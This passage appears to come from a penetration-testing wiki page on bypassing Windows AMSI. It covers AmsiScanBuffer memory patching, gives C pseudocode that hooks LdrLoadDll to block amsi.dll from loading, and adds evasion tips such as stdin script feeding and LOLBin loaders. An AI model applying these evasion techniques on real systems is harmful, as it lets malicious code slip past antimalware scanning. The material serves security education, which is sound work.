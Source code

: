 Keep in mind, that this will probably get flagged once this post comes out, so you should not publish any code if your plan is staying undetected.

**Memory Patching**

This technique was initially discovered by [@RastaMouse](https://twitter.com/_RastaMouse/) and it involves finding address for the "AmsiScanBuffer" function in amsi.dll (responsible for scanning the user-supplied input) and overwriting it with instructions to return the code for E_INVALIDARG, this way, the result of the actual scan will return 0, which is interpreted as a clean result.

> [!TIP]
> Please read [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) for a more detailed explanation.

There are also many other techniques used to bypass AMSI with powershell, check out [[basic-powershell-for-pentesters/README.md#Amsi Bypass|this page]] and [**this repo**](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) to learn more about them.

### Blocking AMSI by preventing amsi.dll load (LdrLoadDll hook)

AMSI is initialised only after `amsi.dll` is loaded into the current process. A robust, language‑agnostic bypass is to place a user‑mode hook on `ntdll!LdrLoadDll` that returns an error when the requested module is `amsi.dll`. As a result, AMSI never loads and no scans occur for that process.

Implementation outline (x64 C/C++ pseudocode):
```c
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI *pLdrLoadDll)(PWSTR, ULONG, PUNICODE_STRING, PHANDLE);
static pLdrLoadDll realLdrLoadDll;

NTSTATUS NTAPI Hook_LdrLoadDll(PWSTR path, ULONG flags, PUNICODE_STRING module, PHANDLE handle){
    if (module && module->Buffer){
        UNICODE_STRING amsi; RtlInitUnicodeString(&amsi, L"amsi.dll");
        if (RtlEqualUnicodeString(module, &amsi, TRUE)){
            // Pretend the DLL cannot be found → AMSI never initialises in this process
            return STATUS_DLL_NOT_FOUND; // 0xC0000135
        }
    }
    return realLdrLoadDll(path, flags, module, handle);
}

void InstallHook(){
    HMODULE ntdll = GetModuleHandleW(L"ntdll.dll");
    realLdrLoadDll = (pLdrLoadDll)GetProcAddress(ntdll, "LdrLoadDll");
    // Apply inline trampoline or IAT patching to redirect to Hook_LdrLoadDll
    // e.g., Microsoft Detours / MinHook / custom 14‑byte jmp thunk
}
```
Notes
- Works across PowerShell, WScript/CScript and custom loaders alike (anything that would otherwise load AMSI).
- Pair with feeding scripts over stdin (`PowerShell.exe -NoProfile -NonInteractive -Command -`) to avoid long command‑line artefacts.
- Seen used by loaders executed through LOLBins (e.g., `regsvr32` calling `DllRegisterServer`).
